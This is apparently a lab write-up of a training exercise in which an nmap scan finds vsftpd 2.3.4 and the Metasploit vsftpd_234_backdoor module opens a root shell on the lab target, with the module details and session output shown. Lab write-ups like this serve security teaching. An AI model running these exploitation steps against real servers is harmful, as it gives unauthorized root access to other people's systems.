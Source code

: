 # Vulnerable FTP Server

## Instructions: 

- This lab is dedicated to you! No other users are on this network :) 
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
The target server should be located at the IP address 192.X.Y.3. 
- Do not attack the gateway located at IP address 192.X.Y.1 
- postgresql is not running by default so Metasploit may give you an error about this when starting

## Notes

- **eth1**: inet 192.113.52.2  netmask 255.255.255.0  broadcast 192.113.52.255

## Nmap (sudo nmap -p- -vv -T4 -sC -sV 192.33.67.3)

    Scanning 192.33.67.3 [1 port]
    Completed ARP Ping Scan at 22:32, 0.04s elapsed (1 total hosts)
    `Discovered open port 21/tcp on 192.33.67.3`
    PORT   STATE SERVICE REASON         VERSION
    21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
    |_ftp-anon: got code 500 "OOPS: cannot change directory:/nonexistent".
    MAC Address: 02:42:C0:71:34:03 (Unknown)
    Service Info: OS: Unix

## MSFCONSOLE (unix/ftp/vsftpd_234_backdoor)

    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > info

        Name: VSFTPD v2.3.4 Backdoor Command Execution
        Module: exploit/unix/ftp/vsftpd_234_backdoor
    Platform: Unix
        Arch: cmd
    Privileged: Yes
        License: Metasploit Framework License (BSD)
        Rank: Excellent
    Disclosed: 2011-07-03

    Provided by:
    hdm <x@hdm.io>
    MC <mc@metasploit.com>

    Available targets:
    Id  Name
    --  ----
    0   Automatic

    Check supported:
    No

    Basic options:
    Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target address range or CIDR identifier
    RPORT   21               yes       The target port (TCP)

    Payload information:
    Space: 2000
    Avoid: 0 characters

    Description:
    This module exploits a malicious backdoor that was added to the 
    VSFTPD download archive. This backdoor was introduced into the 
    vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
    according to the most recent information available. This backdoor 
    was removed on July 3rd 2011.

    References:
    CVE: Not available
    OSVDB (73573)
    http://pastebin.com/AetT9sS5
    http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

## unix/ftp/vsftpd_234_backdoor 

    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

    [*] 192.33.67.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 192.33.67.3:21 - USER: 331 Please specify the password.
    [+] 192.33.67.3:21 - Backdoor service has been spawned, handling...
    [+] 192.33.67.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.33.67.2:45899 -> 192.33.67.3:6200) at 2022-04-04 22:40:39 +0000

    whoami
    root

